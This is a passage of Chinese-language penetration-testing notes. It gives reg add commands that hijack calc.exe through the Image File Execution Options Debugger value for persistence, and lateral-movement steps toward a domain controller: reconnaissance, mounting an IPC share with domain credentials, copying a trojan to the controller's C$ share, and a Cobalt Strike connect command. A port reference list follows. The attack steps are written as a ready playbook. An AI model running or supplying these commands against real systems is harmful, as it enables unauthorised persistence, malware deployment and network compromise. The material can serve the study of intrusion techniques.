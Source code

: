 > 开机启动项——菜单\程序\启动

> 镜像劫持

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /f  
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t REG_SZ /d "C:\test.exe" /f
```

## Linux权限维持

见74

## 横向移动

> 寻找域控（CS操作）

```cmd
##看IP地址
ipconfig /all

##看域名
systeminfo

##插件获得密码

##IPC挂载
net use z: \\IP地址或主机名 “密码” /user:域\用户

##上传木马到域控（木马是正向连接）
copy 木马 \\192.168.0.0\C$

##创建计划任务

##CS连接
connect 192.168.0.0 4444
```

> 常见端口

```
135,139,445,21,22,23,25,53,80,110,443,1433,1521,1863,3306,3389,5631,5632,5000
  
21端口：FTP 文件传输服务
22端口：SSH 端口
23端口：TELNET 终端仿真服务
25端口：SMTP 简单邮件传输服务
53端口：DNS 域名解析服务
80端口：HTTP 超文本传输服务
110端口：POP3 “邮局协议版本3”使用的端口
443端口：HTTPS 加密的超文本传输服务
1433端口：MS SQL*SERVER数据库 默认端口号
1521端口：Oracle数据库服务
1863端口：MSN Messenger的文件传输功能所使用的端口
3306端口：MYSQL 默认端口号
3389端口：Microsoft RDP 微软远程桌面使用的端口
5631端口：Symantec pcAnywhere 远程控制数据传输时使用的端口
5632端口：Symantec pcAnywhere 主控端扫描被控端时使用的端口
5000端口：MS SQL Server使用的端口
```
